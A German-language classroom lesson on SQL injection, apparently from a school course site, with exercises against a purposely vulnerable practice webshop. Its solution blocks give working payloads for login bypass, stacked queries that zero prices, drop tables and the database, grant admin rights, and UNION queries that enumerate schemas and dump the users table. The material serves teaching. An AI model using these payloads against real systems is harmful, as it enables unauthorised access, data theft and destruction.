

---
sidebar_custom_props:
  id: 5d2aec6f-3622-464f-b2ae-05847f62f98e
---

# SQL Injection

> SQL-Injection (dt. SQL-Einschleusung) bezeichnet das Ausnutzen einer Sicherheitslücke im Zusammenhang mit SQL-Datenbanken, die durch mangelnde Überprüfung von Benutzereingaben entsteht. Die Angreifer:in versucht dabei, über die Anwendung, die den Zugriff auf die Datenbank bereitstellt, eigene Datenbankbefehle einzuschleusen. Ziele können sein, Daten auszuspähen, im eigenen Sinne zu verändern, die Kontrolle über den Server zu erhalten oder einfach grösstmöglichen Schaden anzurichten.
>
> SQL-Injections sind dann möglich, wenn Daten wie beispielsweise Benutzereingaben direkt an die Datenbank weitergeleitet und von dieser interpretiert und direkt ausgeführt werden. [^1]
 
Doch wann werden Benutzereingaben an die Datenbank geschickt? Nehmen wir als Beispiel die SBB-Website für die Zugverbindungen. Eine Benutzer:in sucht nach einem Startort und Zielort. Bereits während der Benutzereingabe werden mögliche Bahnhöfe angezeigt.


Mögliche Standorte, die mit __Ber__ beginnen, müssen während der Eingabe zuerst gesucht werden. Diese Suchanfrage wird über die URL als `GET`-Request mit dem Query-Parameter `match=ber` an den SBB Autocomplete Server geschickt:

👉 https://www.sbb.ch/bin/sbb/timetable/autocomplete?match=ber

```
https://sbb.ch/bin/sbb/timetable/autocomplete?match=ber
\___/   \____/ \_______________________/ \________/
  |	       |   	            |    	         |
Schema   Host 	           Pfad 	       Query
```

Auf dem Server läuft das entsprechende Autocomplete-Programm, welches nun eine SQL-Abfrage ausführt:

```sql
SELECT name FROM train_stations WHERE location ILIKE 'ber%';
```

Da der Query-Parameter `match` bei jeder Anfrage anders ist, muss die SQL-Abfrage dynamisch erzeugt werden.

```py live_py slim
# normalerweise kommt der Request vom Browser
request = { 'args': { 'match': 'ber' } }

location = request['args'].get('match')
sql = f"SELECT name FROM train_stations WHERE location ILIKE '{location}%';"
print(sql)
```
Die SQL-Injection Schwachstelle befindet sich in der Art des Zusammensetzens der SQL-Abfrage.

:::aufgabe Autocomplete Legodudes
<Answer type="state" webKey="88f41ae0-b766-4dd5-b0e5-f7201f6114e7" />

Datenbank
: __xkcd__
: 👉 https://db-sql.ch/connections/9e5bd382-6110-4f04-adf7-2b46fcdadfd5/xkcd

Mit folgendem Code kann eine SQL-Abfrage generiert werden. Es soll nur der `match`-Parameter angepasst werden (aktuell: `EF`)

```py live_py slim
request = { "args": { "match": "EF" } }

match = request['args'].get('match')
sql = f"""
SELECT * 
FROM comics 
WHERE title ILIKE '%{match}%';
"""
print(sql)
```
1. Probieren Sie einige Werte für `match` aus und führen Sie die Abfrage auf [👉 xkcd](https://db-sql.ch/connections/9e5bd382-6110-4f04-adf7-2b46fcdadfd5/xkcd) aus.
2. Was passiert, wenn folgende Eingaben verwendet werden?
   1. `data`
   2. `data';--`
   3. `data%'`
   4. `data%' ORDER BY title asc; --`
   5. `data%' OR 1=1;--`

<Answer type="text" webKey="f9f72232-728d-4174-a59a-d101da20276d" />
:::

## Konzept der SQL Injection

Die Hacker:in versucht über ein Eingabefeld (oder direkt als URL-Parameter) SQL Steuerzeichen und -Befehle an die Applikation zu senden. Wenn in der Applikation mit den Eingabedaten direkt eine SQL-Abfrage zusammengesetzt wird, lässt sich damit die Abfrage verändern:

```py
sql = f"SELECT name FROM train_stations WHERE location ILIKE '{location}%';"
```

:::cards --min-width=250px
#### Normal
Eingabe: `EF`

```sql
SELECT * FROM train_stations
WHERE location ILIKE 'EF%';
```
***
#### Erzeuge Fehler
Eingabe: `'KRUMS;--`

```sql
SELECT * FROM train_stations
WHERE location ILIKE '%' KRUMS;--';
```
***
#### Sortieren
Eingabe: `ber' ORDER BY location DESC;--`

```sql
SELECT * FROM train_stations
WHERE location ILIKE 'ber' 
ORDER BY location DESC;--;
```
***
:::
:::success Entscheidend
Durch das Hochkomma `'` zu Beginn der Eingabe wird der Suchtext im SQL-Befehl abgeschlossen. Somit können im Anschluss eigene SQL Befehle hinzugefügt werden.
Mit einem Semikolon `;` wird die Abfrage abgeschlossen und der nachfolgenden SQL-Code wird mit `--` auskommentiert. Somit haben wir es in eigenen Händen, dass ein korrektes SQL Query entsteht.
:::


Durch absichtliche Falsch-Eingaben kann schnell herausgefunden werden, ob eine Eingabe direkt an die Datenbank weitergegeben wurde und das Eingabefehld somit für eine SQL-Injection anfällig ist.


:::aufgabe Übung 1
<Answer type="state" webKey="e7b7f9b5-655d-4572-9682-e7b1b893a5bf" />

Webshop
: 👉 https://hacksql.gbsl.website
Tipp
: Falls nichts angezeigt wird (weil jemand alles gelöscht hat): Ganz unten auf der Seite hat es einen roten Knopf "Recreate Tables", welcher den ursprünglichen Zustand wiederherstellt.

1.	welche Eingabefelder sind offensichtlich nicht gegen SQL-Injection geschützt? (Es gibt also eine Fehlermeldung direkt auf der Website)
2.	versuchen Sie über das Eingabefeld die Kaffee-Sorten nach der Kaffee-Mischung (blend_name) aufsteigend und absteigend zu sortieren.

<Answer type="text" webKey="81193f8c-c217-4e87-a3e5-defba496e6b6" />

<Solution webKey="097eaf28-2aba-4ddb-990e-7b6db31f9a0b">

#### Aufgabe 1
Filter-Feld erzeugt eine Fehlermeldung wenn 

```sql
' KRUMS;--
```

eingegeben wird.

#### Aufgabe 2
Sortieren nach blend_name

Aufsteigend

```sql
' ORDER BY blend_name ASC;--
```
Absteigend
```sql
' ORDER BY blend_name DESC;--
```

</Solution>

:::

## Immer Wahr

Ein weiterer Trick bei der SQL-Injection ist das Einfügen von **immer wahren Bedingungen**. Dies wird dann verwendet, wenn eine Filter-Funktion umgangen werden soll.

**Beispiel**: Eine Webseite möchte dem eingeloggten Benutzer alle über Ihn gespeicherten Informationen anzeigen. Dazu wird seine Mail-Adresse in die Variable $email gespeichert und folgende Abfrage zusammengestellt:

Was passiert, wenn nun als `email` die Eingabe `' OR 1=1;--` verwendet wird?

:::cards
*** --flexBasis=1400px
#### Template
```py live_py slim
email = "reto@gymnasium.ch"
sql = f"SELECT * FROM students WHERE email = '{email}'"
print(sql)
```
***
#### Eingabe
```sql
' OR 1=1;--
```
***
#### SQL-Abfrage
```sql
SELECT * FROM students WHERE email = '' OR 1=1;--'
```
:::

Obwohl `email = ''` falsch ist, wird die Bedingung `1=1` immer wahr sein. Somit werden alle Datensätze zurückgegeben.

:::aufgabe Übung 2
<Answer type="state" webKey="9cdf725a-def3-407f-858c-52e35fdf0493" />

Webshop
: 👉 https://hacksql.gbsl.website

1. Versuchen Sie sich einzuloggen, ohne dabei einen Benutzername oder ein Passwort zu verwenden.
2. Einloggen hat funktioniert, nur leider hat dieser Benutzer keine Rechte. Da Sie gestern Abend im Pub zufällig ein Gespräch mit der Entwickler:in des Webshops gehört haben, wissen Sie, dass es einen Admin mit der E-Mail `admin@mail.ch` und eine Tabellenspalte `email` geben muss. Loggen Sie sich ein und löschen Sie ein paar Kaffee-Sorten.

<Answer type="text" webKey="6cea78a1-6c4f-4988-bb14-72716f7e6d04" />

<Solution webKey="45eefd86-7270-4c6f-abdb-690d15f7f54c">
1. Einloggen

```sql
' OR 1=1;--
```

2. Als Admin

```sql
' OR 1=1 AND email='admin@mail.ch'; --
```

</Solution>
:::

## Trick: mehrere Befehle

Ein weiteres Prinzip ist die Verwendung von mehreren SQL-Befehlen. Gewisse Datenbanksysteme führen mehrere durch Semikolons `;` voneinander getrennte Befehle direkt nacheinander aus. Dies ist dann nützlich, wenn Einträge geändert, gelöscht oder hinzugefügt werden sollen.

:::cards --minWidth=250px --columns=2
*** --flexBasis=1400px
#### Template
```py live_py slim
email = "reto@gymnasium.ch"
sql = f"SELECT * FROM students WHERE email = '{email}'"
print(sql)
```
***
#### Eingabe
```sql
'; UPDATE students SET grade=6 WHERE id=13; --`
```
***
#### SQL-Abfrage
```sql
SELECT * FROM students
WHERE email = '';
UPDATE students 
SET grade=6 
WHERE id=13; --';
```
:::

Mit dieser Eingabe wird zuerst der von der Applikation vorgegebene Befehl korrekt abgeschlossen und dann die Note des Schülers mit der ID 13 auf eine 6 gesetzt.

:::aufgabe Übung 3
<Answer type="state" webKey="4e434f1b-6605-4199-8ce8-a42909acbf98" />

Normalerweise sind einem Angreifer die Details über die Datenbank, welche hier gegeben sind (bspw. die Spaltennamen) nicht bekannt und müssen zuerst herausgefunden werden. Mehr dazu im nächsten Abschnitt.

1.	Ändern Sie die Preise aller Kaffee-Sorten auf 0 Franken.
2.	Ändern Sie die Preise einer ausgewählten Kaffee-Sorte.
3.	Löschen Sie auf der Datenbank die Tabelle `coffee`
4.	Löschen Sie die ganze Datenbank `hfr_hacksql`
5.	Versuchen Sie dem test-Benutzer mit der E-Mail adresse `test@mail.ch` administrator-Rechte zu geben. Dazu muss das Feld `role` auf den Wert `admin` gesetzt werden.

<Answer type="text" webKey="8799718f-a43b-45a5-a127-539c67939026" monospace />

<Solution webKey="f5840fa3-a9a7-4c4c-8a14-35e58d0456db">

#### Aufgabe 1
```sql
'; UPDATE coffee SET price=0; --
```
#### Aufgabe 2
```sql
'; UPDATE coffee SET price=0 WHERE id = 12; --
```
#### Aufgabe 3
```sql
'; DROP TABLE coffee; --
```
#### Aufgabe 4
```sql
'; DROP DATABASE hfr_hacksql; --
```
#### Aufgabe 5
```sql
'; UPDATE users SET role='admin' WHERE name='test'; --
```

</Solution>
:::

## Mehrere Abfragen kombinieren: `UNION`

Oftmals weiss man nicht im Voraus, wie das Schema der Datenbank aussieht (bspw. wie die Tabellen heissen und welche Spalten sie enthalten). Deshalb muss dies oft in einem ersten Schritt herausgefunden werden. Doch die einzige Möglichkeit um die Resultate anzuzeigen, ist das mit der Eingabe verbundene Anzeige-Elemente - bei der Coffee-Shop Webseite also die Tabelle unterhalb vom Filter.



Sollen Abfragen miteinander kombiniert werden, so müssen die Resultate der beiden `SELECT` Queries also **genau gleich viele Spalten** aufweisen.

:::cards --minWidth=250px --columns=2 --className=slim,compact,left
__legodudes__

| id | name              | land       | essen                |
|---:|:------------------|:-----------|:---------------------|
|  1 | Litty Feuerwehr   | Schweden   | Heisse Schokolade    |
|  2 | Crazy Lego Dude   | Österreich | Spaghetti            |
|  3 | Elon Marsk        | USA        | Lasagne              |

***

__haustiere__

| id | name     | lieblingsfutter |
|---:|:---------|:----------------|
|  1 | Fluffy   | Knochen         |
|  2 | Whiskers | Fisch           |
|  3 | Spike    | Äpfel           |

*** --flexBasis=1400px
```sql
SELECT id, name, essen
FROM legodudes
UNION
SELECT id, name, lieblingsfutter
FROM haustiere;
```
*** --className=center

__Resultat__

| id | name            | essen             |
|---:|:----------------|:------------------|
|  1 | Fluffy          | Knochen           |
|  1 | Litty Feuerwehr | Heisse Schokolade |
|  2 | Whiskers        | Fisch             |
|  2 | Crazy Lego Dude | Spaghetti         |
|  3 | Elon Marsk      | Lasagne           |
|  3 | Spike           | Äpfel             |
:::

Sollen nun alle Spalten von den __legodudes__ angezeigt werden, muss auch die Abfrage der Tabelle __haustiere__ 4 Spalten zurückgeben:

:::cards --minWidth=250px --columns=2 --className=slim,compact,left
```sql
SELECT id, name, land, essen
FROM legodudes
UNION
SELECT id, name, NULL, lieblingsfutter
FROM haustiere;
```
*** --flexBasis=1400px --className=center
__Resultat__

| id | name            | land       | essen             |
|---:|:----------------|:-----------|:------------------|
|  1 | Fluffy          |            | Knochen           |
|  1 | Litty Feuerwehr | Schweden   | Heisse Schokolade |
|  2 | Whiskers        |            | Fisch             |
|  2 | Crazy Lego Dude | Österreich | Spaghetti         |
|  3 | Spike           |            | Äpfel             |
|  3 | Elon Marsk      | USA        | Lasagne           |
:::

### Wie viele Spalten hat eine Tabelle?

Um herauszufinden, wie viele Spalten eine abgefragte Tabelle hat, kann Schrittweise nach einer Spalte sortiert werden, wobei der Spaltennamen nicht bekannt sein muss, sondern auch `ORDER BY 1` für das sortieren nach der ersten Spalte verwendet werden kann. Sobald eine Fehlermeldung erscheint, ist die Anzahl Spalten bekannt.

:::aufgabe Übung 4
<Answer type="state" webKey="15c1f7b0-ee68-42af-94dd-79b17479cafb" />

Wie viele Spalten hat die gefilterte Kaffee-Tabelle? Finden Sie dies heraus, indem Sie folgende Eingabe verwenden und anpassen:

```sql
' ORDER BY 1;--
```

<Answer type="text" webKey="a7391020-8072-4fa2-8e33-e14e9049b8ed" />

:::

Mit diesen Werkzeugen lassen sich nun auch bspw. alle User inkl. deren Passwörter herausfinden!

:::::aufgabe Übung 5
<Answer type="state" webKey="2884626b-4f6d-4e1c-aa2f-03ce2f0cfee6" />

1.	Geben Sie in Kombination mit dem `UNION` Befehl eine einzelne Zeile `1,2,3,4,5,6,7` aus.

    <Answer type="text" webKey="09c4837f-34aa-45e6-9a4f-36a3fc273a70" />

    :::note Tipp
    Ändern Sie Ihre Eingabe so ab, dass keine Kaffee-Resultate angezeigt werden.
    :::

2.	Zeigen Sie in Kombination mit dem `UNION` Befehl die Datenbankversion und den Datenbanknamen an.

    <Answer type="text" webKey="e336768d-62ed-4f0a-8bad-faeb3d8fdd5e" />

    ::::note Tipp
    Für __MySQL__ Datenbanken gilt:
    :::cards
    #### Datenbankversion
    ```sql
    SELECT version();
    ```
    ***
    #### Datenbankname

    <GTabs getLabel={(idx) => ['MySQL', 'PSQL'][idx]} groupId="dbs">

    ```sql
    SELECT database();
    ```

    ```sql
    SELECT current_database();
    ```
    </GTabs>

    :::
    ::::

3.	Welche Tabellen gibt es auf dieser Datenbank? Welche Spalten gibt es in einer Tabelle?

    <Answer type="text" webKey="205c866d-5a31-4b41-9beb-0690726cefc4" />

    ::::note Tipp
    In MySql können die Namen aller Tabellen in der Datenbank 'test_db' mit folgendem Query abgefragt werden, bzw. die Spalten der Tabelle 'test_table':

    :::cards --minWidth=350px
    #### Alle Tabellen einer Datenbank
    ```sql
    SELECT table_name
    FROM information_schema.tables
    WHERE table_schema='database-name';
    ```
    ***
    #### Spalten der Tabellen einer Datenbank

    <GTabs getLabel={(idx) => ['MySQL', 'PSQL'][idx]} groupId="dbs">

    ```sql
    SELECT table_name, column_name
    FROM information_schema.columns
    WHERE table_schema='database-name';
    ```

    <div>

    ```sql
    SELECT table_name, column_name
    FROM information_schema.columns
    WHERE table_catalog='database-name' 
        AND table_schema='public';
    ```

    In PSQL gibt es pro Datenbank mehrere Schemas. Mit `table_schema` kann das Schema angegeben werden. Standardmässig wird das Schema `public` verwendet.

    </div>
    </GTabs>

    :::
    ::::

4.	Es gibt eine Tabelle mit allen Benutzer - zeigen Sie alle Informationen der Benutzer an und loggen Sie sich anschliessend ein.

    <Answer type="text" webKey="e8202804-21eb-4000-9651-7949591d283a" />


<Solution webKey="71a67207-f3d8-47e5-8ac0-1de0dbd7cb96">

#### Aufgabe 1
```sql
z' UNION SELECT 1,2,3,4,5,6,7;--
```

#### Aufgabe 2
```sql
z' UNION SELECT 1,2,3,4,5,database(),version();--

```

#### Aufgabe 3

Tabellen Namen

```sql
z' UNION
SELECT 1,2,3,4,5,6, table_name
FROM information_schema.tables
WHERE table_schema='hfr_hacksql'; --
```

Spalten Namen

```sql
z' UNION
SELECT 1,2,3,4,5,table_name,column_name
FROM information_schema.columns
WHERE table_schema='hfr_hacksql'; --
```
#### Aufgabe 4
```sql
zz' UNION SELECT 1, 2, users.* FROM users;--

```

</Solution>

:::::

[^1]: Quelle: [Wikipedia](https://de.wikipedia.org/wiki/SQL-Injection)
